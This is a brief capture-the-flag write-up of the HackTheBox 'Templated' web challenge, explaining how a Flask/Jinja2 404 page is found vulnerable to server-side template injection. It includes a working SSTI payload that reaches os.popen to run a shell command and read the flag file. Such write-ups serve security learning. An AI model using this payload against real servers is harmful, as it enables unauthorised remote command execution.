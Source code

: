 ```yaml
---
title: "Templated"
date: 2022-09-20T15:03:31+01:00
draft: false
categories:
  - HackTheBox
---
```



Another great web challenge.

the website could not make it more obvious 

google `flask/jinja2` exploit or vulerability

Seems like its `template injection` (SSTI)

you can read [this](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

and also [this](https://secure-cookie.io/attacks/ssti/#tldr---show-me-the-fun-part) one if you want!  

But where do i inject the code? Inspecting the source code gives nothing

fiddling a bit with the url path we notice the `404 page` renders whatever is added to path

that's it! we need to do it directly in the url path

I tried this:
`http://178.62.54.69:30320/{{7*7}}`

And got that
```
Error 404

The page '49' could not be found

```

you got it! 7*7 got executed! now its free real estate!

Our magic payload looks like this! modify at will and append it to url path

```
{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}
```
Profit!

```
Error 404

The page 'HTB{t3mpl4t3_0f_fl4g_h3r3!} ' could not be found
```
Yeah this challenge was actually easy...even for HTB standards

